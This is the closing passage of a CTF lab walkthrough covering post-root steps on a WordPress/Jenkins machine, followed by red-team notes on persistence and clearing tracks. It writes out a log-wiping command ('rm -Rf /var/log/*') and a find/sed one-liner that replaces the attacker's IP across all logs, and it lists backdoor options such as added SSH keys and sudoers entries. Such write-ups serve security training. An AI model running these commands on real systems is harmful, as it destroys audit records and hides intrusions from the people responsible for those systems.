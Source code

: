 One interesting follow-up, not only can we now see the rest of the Wordpress server we started from, we can also see the Jenkins Docker container we were just on too:

```bash
docker ps
```

Which shows:

```text
root@internal:~# docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                 NAMES
7b979a7af778        jenkins/jenkins     "/sbin/tini -- /usr/…"   3 years ago         Up 2 hours          127.0.0.1:8080->8080/tcp, 50000/tcp   jenkins
```

You can get your final flag now from `/root/root.txt`.

## PHASE 4: Maintaining Access & Persistence

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

- Add SSH key to `/root/.ssh/authorized_keys`
- Create a privileged account that wouldn’t draw attention (ex: `operations`) or an unprivileged account and give it `sudo` access via group or directly in the `/etc/sudoers` file.
- Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

### Delete Logs

Delete relevant logs from `/var/log/` - although that might draw attention.

```bash
rm -Rf /var/log/*
```

### Replace our IP

Search and replace our IP address in all logs.

#### OPTION 1: Simple

The simplest way is via something like:

```bash
find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;
```

This searches for all files under `/var/log/` and for each file found, searches for `10.10.2.14` (replace this with your IP) and and replace anywhere that is found with `127.0.0.1`.

#### OPTION 2: Complex
